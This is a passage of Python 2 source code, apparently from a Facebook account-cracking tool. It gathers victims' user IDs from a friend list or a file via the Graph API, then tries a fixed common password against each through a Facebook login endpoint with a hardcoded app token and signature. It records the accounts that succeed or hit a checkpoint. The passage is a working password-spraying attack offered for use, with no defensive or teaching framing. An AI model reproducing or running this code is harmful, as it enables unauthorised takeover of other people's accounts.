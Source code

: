 		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;96m[!] \x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		jalan('\033[1;96m[✺] \033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		try:
			idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;96m[!] \x1b[1;91mFile Not Found'
			raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;96m[+] \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;96m[✺] \033[1;93mStarting \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m[!] \x1b[1;93mTo Stop Process Press CTRL Then Press z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1